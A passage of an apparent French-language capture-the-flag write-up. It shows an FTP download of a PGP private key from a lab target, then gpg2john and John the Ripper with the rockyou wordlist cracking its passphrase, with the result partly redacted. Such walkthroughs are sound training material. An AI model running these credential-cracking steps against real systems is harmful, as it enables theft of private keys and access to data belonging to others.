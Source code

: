 ```bash
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> get backup.pgp
local: backup.pgp remote: backup.pgp
229 Entering Extended Passive Mode (|||18907|)
150 Opening BINARY mode data connection for backup.pgp (524 bytes).
100% |********************************************************************|   524        1.04 MiB/s    00:00 ETA
226 Transfer complete.
524 bytes received in 00:00 (15.61 KiB/s)
ftp> get private.asc
local: private.asc remote: private.asc
229 Entering Extended Passive Mode (|||6406|)
150 Opening BINARY mode data connection for private.asc (3762 bytes).
100% |********************************************************************|  3762        2.00 MiB/s    00:00 ETA
226 Transfer complete.
3762 bytes received in 00:00 (104.45 KiB/s)
```

En voulant ajouter la clé privée à notre trousseau, un mot de passe nous est demandé. Nous allons devoir recourir à nouveau à la force brute.

```bash
gpg --import-keys private.asc

│ Veuillez entrer la phrase secrète pour importer la clef secrète OpenPGP : │
│ « anonforce <melodias@anonforce.nsa> »                                    │
│ clef DSA de 2048 bits, identifiant B92CD1F280AD82C2,                      │
│ créée le 2019-08-12.                                                      |
```

Pour cela nous aurons besoin de l'outil *<abbr title="Logiciel de craquage de mot de passe">John The Ripper</abbr>* et `gpg2john` afin de convertir la clé privée en hash compréhensible par John.

```bash
gpg2john private.asc > key_hash.txt

john --format=gpg key_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

{% capture spoil %}
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
x[...expurgé...]0          (anonforce)
1g 0:00:00:00 DONE (2024-08-31 18:08) 14.28g/s 13314p/s 13314c/s 13314C/s xbox360..madalina
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
{% endcapture %}
{% include elements/spoil.html %}
